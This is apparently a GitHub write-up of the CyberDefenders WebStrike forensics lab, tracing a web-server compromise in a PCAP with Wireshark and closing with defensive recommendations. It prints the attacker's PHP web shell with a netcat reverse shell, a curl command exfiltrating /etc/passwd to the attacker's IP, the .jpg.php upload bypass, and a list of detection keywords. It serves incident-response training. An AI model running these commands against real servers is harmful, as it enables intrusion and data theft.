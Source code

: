 # 🕵️‍♂️ WebStrike Lab — Official Walkthrough  

**Platform:** CyberDefenders  
**Tool Used:** Wireshark  
**Category:** Network Forensics | Web Attack Investigation   
**Objective:** Investigate a captured PCAP file to uncover attacker behavior, exploited vulnerabilities, reverse shell connection, and attempted data exfiltration.

---

In this forensic investigation, suspicious web activity was captured from a company’s web server and provided as a **PCAP file**. Analysis revealed an unauthorized **file upload**, **reverse shell execution**, and an **attempt to exfiltrate sensitive system data**.

Using **Wireshark**, the network capture was examined step-by-step to uncover how the attacker gained access, maintained persistence, and tried to steal data. This report explains the full process in a clear and structured way.

---

## 🌍 Attacker Identification & Origin

Opening the `WebStrike.pcap` file in **Wireshark** and navigating to  
`Statistics → Endpoints → IPv4` revealed two primary IP addresses:

![Wireshark Statistics Screenshot](zeroth.png)

- **Attacker:** `117.11.88.124`  
- **Victim Server:** `24.49.63.79`

![Wireshark Endpoints Screenshot](first.png)

Using [ipgeolocation.io](https://ipgeolocation.io), the attacker’s IP was traced to:

- **City:** Tianjin  
- **Country:** China  
- **Coordinates:** 39.13° N, 117.15° E  

![IP Geolocation Screenshot](second.png)

🧠 *Interpretation:*  
The attack originated from **Tianjin, China**. This insight is valuable for **geo-blocking**, **threat intelligence**, and **regional trend analysis**.

---

## 🧭 Attacker’s User-Agent

Following an HTTP stream (`Follow → HTTP Stream`) revealed the attacker’s User-Agent string:

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0


![HTTP Stream Screenshot](third.png)

🧠 *Insight:*  
The attacker spoofed a **Linux-based Firefox browser**, likely to blend in with legitimate web traffic and bypass simple detection filters.

---

## 💥 Exploited Vulnerability: File Upload Bypass

A focused Wireshark filter:
ip.src == 117.11.88.124 && http.request.method=="POST"

revealed multiple **POST requests** made by the attacker.

In the first request:
- File: `image.php`  
- Endpoint: `/reviews/upload.php`  
- Server response: **Invalid file format**

In the second request:
- File: `image.jpg.php`  
- Same endpoint  
- Server response: **File uploaded successfully**

![Malicious File Upload Screenshot](fourth.png)

🧠 *Finding:*  
The attacker bypassed the server’s validation by appending `.jpg` before `.php`.  
This allowed a **malicious PHP script** to be uploaded — a **web shell** that grants remote access.

---

## 📁 Malicious Upload Directory

Subsequent HTTP responses showed:

GET /reviews/uploads
→ 301 Moved Permanently → /reviews/uploads/


This confirmed that all uploaded files were stored under:


![Upload Directory Screenshot](fifth.png)

🧠 *Interpretation:*  
The directory `/reviews/uploads/` was the target storage path for all user-uploaded (and now malicious) files.

---

## 🔄 Reverse Shell Analysis

Examining the uploaded web shell (`image.jpg.php`) revealed embedded PHP code:

```php
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f");
?>


This command created a reverse shell using nc (netcat), connecting back to the attacker’s IP on port 8080.

🧠 Insight:
The attacker used port 8080 to establish remote command execution from the compromised web server.

📤 Data Exfiltration Attempt

Monitoring traffic on the reverse shell connection with this filte

(tcp.port==8080) && (ip.src==24.49.63.79)

curl -X POST -d /etc/passwd http://117.11.88.124:443/

🧠 Interpretation:
The attacker attempted to exfiltrate the /etc/passwd file to their machine over port 443.
Though this file doesn’t store password hashes, it lists user accounts — crucial for privilege escalation and reconnaissance.

🧠 Key Findings
Parameter	Value / Description
Attacker IP	117.11.88.124
Origin City	Tianjin, China
User-Agent	Mozilla/5.0 (Linux x86_64; Firefox/115.0)
Uploaded Web Shell	image.jpg.php
Upload Directory	/reviews/uploads/
Reverse Shell Port	8080
Exfiltrated File	/etc/passwd
🛡️ Defensive Recommendations

Harden File Uploads: Enforce strict validation on MIME type, extension, and content.

Deploy WAF Rules: Block .php, .asp, and .jsp uploads to user-accessible folders.

Restrict Egress Ports: Disallow unnecessary outbound connections (e.g., port 8080).

Monitor Reverse Shell Patterns: Detect keywords like nc, bash -i, or curl -d /etc/passwd.

Perform Directory Audits: Regularly inspect /reviews/uploads/ for unknown scripts.

Geo-Blocking: Limit access from high-risk countries.

Improve SIEM Detection: Create correlation rules for multiple failed upload attempts.

🧩 Lessons Learned

Attackers often exploit file upload vulnerabilities to gain code execution.

Reverse shells exploit outbound connections to bypass firewall restrictions.

Simple /etc/passwd exfiltration can expose valuable reconnaissance data.

Network forensics and packet analysis are key to understanding the full scope of an intrusion.

🧰 Skills Demonstrated

Network Forensics (Wireshark)

Reverse Shell & Data Exfiltration Analysis

HTTP/TCP Packet Inspection

Web Shell Exploit Detection

Threat Attribution & Geo-Intelligence

Cybersecurity Reporting & Documentation

👨‍💻 Author

Mohammad Sharuf Ali
📍 Abu Dhabi, UAE
📧 alimdsharuf86@gmail.com

🔗 LinkedIn

💻 GitHub
